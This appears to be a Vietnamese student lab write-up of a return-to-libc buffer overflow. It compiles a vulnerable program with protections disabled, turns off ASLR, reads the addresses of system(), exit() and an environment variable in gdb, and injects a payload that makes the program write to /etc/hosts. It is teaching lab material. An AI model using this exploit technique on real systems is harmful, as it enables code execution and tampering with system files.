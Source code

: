 ### T3 T1 
***
* 1: Ánh xạ file qua máy ảo docker
  ```
  docker run -it --privileged -v "C:/Users/Win 10/Seclabs:/home/seed/seclabs" img4lab
  ```
  ![image](https://github.com/user-attachments/assets/eb9cb947-ee03-4e6b-a2ac-3084b92f1c23)

* 2: Biên dịch và liên kết file
  ```
  gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
  ```
  ![image](https://github.com/user-attachments/assets/80f3997a-dd04-4754-9a52-4584c7249de1)

  ```
  nasm -g -f elf writeip.asm
  ```
  ```
  ld -m elf_i386 -o writeip writeip.o
  ```
  ![image](https://github.com/user-attachments/assets/418d8a47-b3ac-41d8-bdbe-a1e586ebb657)

* 3: Sử dụng bash cũ + tắt chế độ cấp phát ngẫu nhiên
  ```
  sudo ln -sf /bin/zsh /bin/sh
  ```
  ```
  sudo sysctl -w kernel.randomize_va_space=0
  ```
  ![image](https://github.com/user-attachments/assets/54910645-bf41-42ef-bf1f-a640992a6e7a)

* 4: lấy đường dẫn và tạo biến môi trường
  ```
  pwd
  ```
  ![image](https://github.com/user-attachments/assets/d3759c3f-cf6b-46fd-94dd-6d84857813e6)

  `/home/seed/seclabs/exercises/t3`

  ```
  export my_path="/home/seed/seclabs/exercises/t3/shell"
  ```
  Kiểm tra biến đã được taoh hay chưa:
  ```
  echo $my_path
  ```
  ![image](https://github.com/user-attachments/assets/9e01c42f-e180-434c-b6e0-d47e8b80eddf)

* 5: điểm qua stackframe
  ![image](https://github.com/user-attachments/assets/526a90a3-a709-4df4-ae42-3a132f22215f)


  Mục tiêu: ta cần phải chèn 16 + 4 bytes để có thể tràn xuống return address. Và khi tới return address,
  ta sẽ chèn địa chỉ của system vào return address + chèn tiếp 4 bytes địa chỉ exit() vào Argc + chèn 4 bytes biến my_path vào agrv

  => code của shell sẽ được thực hiện và nó sẽ tạo ra 1 file mới trong /etc/hosts 
* 6: Vào gdb của `vuln.out` lấy địa chỉ của system(), exit(), my_path
  ![image](https://github.com/user-attachments/assets/29247c42-b7f2-48e7-8fbb-83e97c960602)
  
  Chạy trong gdb `start`

  ![image](https://github.com/user-attachments/assets/e9f85f85-d4cb-4fd0-bd49-0d853f4a5fd9)

  Địa chỉ của `system`: `0xf7e50db0` => `\xb0\x0d\xe5\xf7`

  Địa chỉ của `exit` : `0xf7e449e0` => `\xe0\x49\xe4\xf7`

  Địa chỉ của my_path : `0xffffdf39` => `\x39\xdf\xff\xff`

* 7: xét quyền cho file
  ```
  sudo chmod 7777 writeip
  ```
  ```
  sudo chmod 7777 /etc/hosts 
  ```
* 8: chạy chương trình
  ```
  r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x39\xdf\xff\xff')")
  ```
  ![image](https://github.com/user-attachments/assets/3215abe8-808b-4cb8-9d3d-bbc312ac145c)

  * trước khi chạy chương trình
    ![image](https://github.com/user-attachments/assets/b1ddc2a5-0e89-4cc5-900f-d0ad57fcd0ab)
    
  * sau khi chạy chương trình
    ![image](https://github.com/user-attachments/assets/6903199c-9551-4580-841b-0e3698fc7201)

    

